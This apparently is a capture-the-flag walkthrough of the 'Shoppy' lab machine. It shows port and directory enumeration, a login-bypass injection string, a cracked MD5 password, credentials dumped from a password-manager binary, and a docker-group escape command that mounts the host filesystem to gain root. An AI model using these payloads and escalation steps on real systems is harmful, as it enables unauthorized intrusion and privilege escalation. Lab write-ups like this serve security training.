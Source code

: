 
### Tools: feroxbuster, 

### Vulnerabilities: Sqli, credentials in binary, docker

Our Nmap scan gives us ssh, http, and copycat are open. Copycat turned out to be a rabbit hole but lets take a look at the webpage.

```console
┌──(npayne㉿Nate-kali)-[~]
└─$ nmap -A -p- -T4 -Pn 10.129.70.70
Starting Nmap 7.92 ( https://nmap.org ) at 2022-09-23 11:41 CDT
Nmap scan report for 10.129.70.70
Host is up (0.074s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 8.4p1 Debian 5+deb11u1 (protocol 2.0)
| ssh-hostkey: 
|   3072 9e:5e:83:51:d9:9f:89:ea:47:1a:12:eb:81:f9:22:c0 (RSA)
|   256 58:57:ee:eb:06:50:03:7c:84:63:d7:a3:41:5b:1a:d5 (ECDSA)
|_  256 3e:9d:0a:42:90:44:38:60:b3:b6:2c:e9:bd:9a:67:54 (ED25519)
80/tcp   open  http     nginx 1.23.1
|_http-title: Did not follow redirect to http://shoppy.htb
|_http-server-header: nginx/1.23.1
9093/tcp open  copycat?
| fingerprint-strings: 
|   GenericLines: 
|     HTTP/1.1 400 Bad Request
|     Content-Type: text/plain; charset=utf-8
|     Connection: close
|     Request
|   GetRequest, HTTPOptions: 
|     HTTP/1.0 200 OK
|     Content-Type: text/plain; version=0.0.4; charset=utf-8
|     Date: Fri, 23 Sep 2022 16:41:44 GMT
|     HELP go_gc_cycles_automatic_gc_cycles_total Count of completed GC cycles generated by the Go runtime.
|     TYPE go_gc_cycles_automatic_gc_cycles_total counter
|     go_gc_cycles_automatic_gc_cycles_total 4
|     HELP go_gc_cycles_forced_gc_cycles_total Count of completed GC cycles forced by the application.
|     TYPE go_gc_cycles_forced_gc_cycles_total counter
|     go_gc_cycles_forced_gc_cycles_total 0
|     HELP go_gc_cycles_total_gc_cycles_total Count of all completed GC cycles.
|     TYPE go_gc_cycles_total_gc_cycles_total counter
|     go_gc_cycles_total_gc_cycles_total 4
|     HELP go_gc_duration_seconds A summary of the pause duration of garbage collection cycles.
|     TYPE go_gc_duration_seconds summary
|     go_gc_duration_seconds{quantile="0"} 2.4952e-05
|     go_gc_duration_seconds{quantile="0.25"} 3.2798e-05
|_    go_gc_dur
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port9093-TCP:V=7.92%I=7%D=9/23%Time=632DE1C7%P=x86_64-pc-linux-gnu%r(Ge
SF:nericLines,67,"HTTP/1\.1\x20400\x20Bad\x20Request\r\nContent-Type:\x20t
SF:ext/plain;\x20charset=utf-8\r\nConnection:\x20close\r\n\r\n400\x20Bad\x
SF:20Request")%r(GetRequest,252B,"HTTP/1\.0\x20200\x20OK\r\nContent-Type:\
SF:x20text/plain;\x20version=0\.0\.4;\x20charset=utf-8\r\nDate:\x20Fri,\x2
SF:023\x20Sep\x202022\x2016:41:44\x20GMT\r\n\r\n#\x20HELP\x20go_gc_cycles_
SF:automatic_gc_cycles_total\x20Count\x20of\x20completed\x20GC\x20cycles\x
SF:20generated\x20by\x20the\x20Go\x20runtime\.\n#\x20TYPE\x20go_gc_cycles_
SF:automatic_gc_cycles_total\x20counter\ngo_gc_cycles_automatic_gc_cycles_
SF:total\x204\n#\x20HELP\x20go_gc_cycles_forced_gc_cycles_total\x20Count\x
SF:20of\x20completed\x20GC\x20cycles\x20forced\x20by\x20the\x20application
SF:\.\n#\x20TYPE\x20go_gc_cycles_forced_gc_cycles_total\x20counter\ngo_gc_
SF:cycles_forced_gc_cycles_total\x200\n#\x20HELP\x20go_gc_cycles_total_gc_
SF:cycles_total\x20Count\x20of\x20all\x20completed\x20GC\x20cycles\.\n#\x2
SF:0TYPE\x20go_gc_cycles_total_gc_cycles_total\x20counter\ngo_gc_cycles_to
SF:tal_gc_cycles_total\x204\n#\x20HELP\x20go_gc_duration_seconds\x20A\x20s
SF:ummary\x20of\x20the\x20pause\x20duration\x20of\x20garbage\x20collection
SF:\x20cycles\.\n#\x20TYPE\x20go_gc_duration_seconds\x20summary\ngo_gc_dur
SF:ation_seconds{quantile=\"0\"}\x202\.4952e-05\ngo_gc_duration_seconds{qu
SF:antile=\"0\.25\"}\x203\.2798e-05\ngo_gc_dur")%r(HTTPOptions,252B,"HTTP/
SF:1\.0\x20200\x20OK\r\nContent-Type:\x20text/plain;\x20version=0\.0\.4;\x
SF:20charset=utf-8\r\nDate:\x20Fri,\x2023\x20Sep\x202022\x2016:41:44\x20GM
SF:T\r\n\r\n#\x20HELP\x20go_gc_cycles_automatic_gc_cycles_total\x20Count\x
SF:20of\x20completed\x20GC\x20cycles\x20generated\x20by\x20the\x20Go\x20ru
SF:ntime\.\n#\x20TYPE\x20go_gc_cycles_automatic_gc_cycles_total\x20counter
SF:\ngo_gc_cycles_automatic_gc_cycles_total\x204\n#\x20HELP\x20go_gc_cycle
SF:s_forced_gc_cycles_total\x20Count\x20of\x20completed\x20GC\x20cycles\x2
SF:0forced\x20by\x20the\x20application\.\n#\x20TYPE\x20go_gc_cycles_forced
SF:_gc_cycles_total\x20counter\ngo_gc_cycles_forced_gc_cycles_total\x200\n
SF:#\x20HELP\x20go_gc_cycles_total_gc_cycles_total\x20Count\x20of\x20all\x
SF:20completed\x20GC\x20cycles\.\n#\x20TYPE\x20go_gc_cycles_total_gc_cycle
SF:s_total\x20counter\ngo_gc_cycles_total_gc_cycles_total\x204\n#\x20HELP\
SF:x20go_gc_duration_seconds\x20A\x20summary\x20of\x20the\x20pause\x20dura
SF:tion\x20of\x20garbage\x20collection\x20cycles\.\n#\x20TYPE\x20go_gc_dur
SF:ation_seconds\x20summary\ngo_gc_duration_seconds{quantile=\"0\"}\x202\.
SF:4952e-05\ngo_gc_duration_seconds{quantile=\"0\.25\"}\x203\.2798e-05\ngo
SF:_gc_dur");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 117.17 seconds
```

Before we can access the page we need to add it to /etc/hosts. At the same time lets run a feroxbuster for more directories and a gobuster for more domain enumeration.

Feroxbuster gets back to us with a login page. These 2 links will help but do not have the direct answer.
https://book.hacktricks.xyz/pentesting-web/login-bypass

https://book.hacktricks.xyz/pentesting-web/nosql-injection

```console
└──╼ [★]$ feroxbuster -u http://shoppy.htb/ -w /usr/share/SecLists/Discovery/Web-Content/raft-medium-directories-lowercase.txt -x php.html,txt,git -q
301       10l       16w      179c http://shoppy.htb/images
301       10l       16w      171c http://shoppy.htb/js
301       10l       16w      173c http://shoppy.htb/css
200       26l       62w     1074c http://shoppy.htb/login
302        1l        4w       28c http://shoppy.htb/admin
301       10l       16w      179c http://shoppy.htb/assets
301       10l       16w      187c http://shoppy.htb/assets/css
301       10l       16w      185c http://shoppy.htb/assets/js
301       10l       16w      187c http://shoppy.htb/assets/img
301       10l       16w      177c http://shoppy.htb/fonts
301       10l       16w      191c http://shoppy.htb/assets/fonts
301       10l       16w      203c http://shoppy.htb/assets/img/avatars
301       10l       16w      181c http://shoppy.htb/exports
200       57l      129w     2178c http://shoppy.htb/
```

A friend was able to use this slqi to get in (Still need to ask how he came to the conclusion)


Since one of the usernames is admin we can put that in front of our sqlinjection.

After inputting this string ```admin'||'1==1``` we are in.

![image](https://user-images.githubusercontent.com/105310322/192317020-b61ec9df-37b4-477e-93e2-6b14b288cfca.png)


Now if we navigate to search for more users and input the same sqli it will populate the users on the system.


![image](https://user-images.githubusercontent.com/105310322/192316925-2bf380d6-61d9-4aec-8ae0-4f8e7551d39d.png)


6ebcea65320589ca4f2f1ce039975995	md5	remembermethisway

josh credentials

```console

└──╼ [★]$ gobuster vhost -u http://shoppy.htb/ -w /usr/share/SecLists/Discovery/DNS/bitquark-subdomains-top100000.txt -q

Found: mattermost.shoppy.htb (Status: 200) [Size: 3122]
```

![image](https://user-images.githubusercontent.com/105310322/192318703-c2ad5e68-8e51-46df-94c1-29b628552852.png)


![image](https://user-images.githubusercontent.com/105310322/192319017-5dfd3369-63f1-48e4-ace0-10c184737abd.png)



```console
jaeger@shoppy:/home/deploy$ sudo -u deploy /home/deploy/password-manager
Welcome to Josh password manager!
Please enter your master password: Sample
Access granted! Here is creds !
Deploy Creds :
username: deploy
password: Deploying@pp!
jaeger@shoppy:/home/deploy$ ^C
jaeger@shoppy:/home/deploy$ su Deploy
su: user Deploy does not exist or the user entry does not contain all the required fields
jaeger@shoppy:/home/deploy$ su deploy
Password: 
$ bash
deploy@shoppy:~$ ls
creds.txt  password-manager  password-manager.cpp
deploy@shoppy:~$ sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for deploy: 
Sorry, user deploy may not run sudo on shoppy.
```

                               ╔═══════════════════╗
═══════════════════════════════╣ Basic information ╠═══════════════════════════════                              
                               ╚═══════════════════╝                                                             
OS: Linux version 5.10.0-18-amd64 (debian-kernel@lists.debian.org) (gcc-10 (Debian 10.2.1-6) 10.2.1 20210110, GNU ld (GNU Binutils for Debian) 2.35.2) #1 SMP Debian 5.10.140-1 (2022-09-02)
User & Groups: uid=1001(deploy) gid=1001(deploy) groups=1001(deploy),998(docker)



https://book.hacktricks.xyz/linux-hardening/privilege-escalation/interesting-groups-linux-pe#docker-group

```
deploy@shoppy:/tmp$ docker images
REPOSITORY   TAG       IMAGE ID       CREATED        SIZE
alpine       latest    d7d3d98c851f   2 months ago   5.53MB
deploy@shoppy:/tmp$ docker run --rm -it --pid=host --net=host --privileged -v /:/mnt alpine chroot /mnt bashbashchroot: can't execute 'bashbash': No such file or directory
deploy@shoppy:/tmp$ docker run --rm -it --pid=host --net=host --privileged -v /:/mnt alpine chroot /mnt bash
root@shoppy:/# cat /root/root.txt
c5a7****************************
```
